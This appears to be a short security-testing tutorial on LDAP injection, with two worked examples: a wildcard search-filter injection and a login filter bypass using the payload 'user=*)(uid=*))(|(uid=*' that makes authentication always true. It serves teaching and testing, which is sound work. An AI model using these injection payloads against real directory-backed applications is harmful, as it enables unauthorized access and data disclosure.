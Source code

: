 # LDAP Injection
---
Lightweight Directory Access Protocol (LDAP) is used to store information about users, hosts, and many other objects.
A web application could use LDAP in order to let users authenticate or search other users’ information inside a corporate structure.
***A successful exploitation*** of an LDAP injection vulnerability could allow the tester to:

-   Access unauthorized content
-   Evade application restrictions
-   Gather unauthorized informations
-   Add or modify Objects inside LDAP tree structure.

## Example 1: Search Filters
Let’s suppose we have a web application using a search filter like the following one:
```txt
searchfilter="(cn="+user+")"
```

which is instantiated by an HTTP request like this:
```txt
http://www.example.com/ldapsearch?user=John
```

If the value `John` is replaced with a `*`, by sending the request:
```txt
http://www.example.com/ldapsearch?user=*
```

The filter will look like:
```txt
searchfilter="(cn=*)"
```
 >Note : A tester could use a trial-and-error approach, by inserting in the parameter `(`, `|`, `&`, `*` and the other characters, in order to check the application for errors.

## Example 2: Login
Let’s suppose a web application uses a filter to match LDAP user/password pair.
```txt
searchlogin= "(&(uid="+user+")(userPassword={MD5}"+base64(pack("H*",md5(pass)))+"))";
```

By using the following values:
```txt
user=*)(uid=*))(|(uid=*
pass=password
```
the search filter will results in:

```txt
searchlogin="(&(uid=*)(uid=*))(|(uid=*)(userPassword={MD5}X03MO1qnZdYdgyfeuILPmQ==))";
```
which is correct and always true.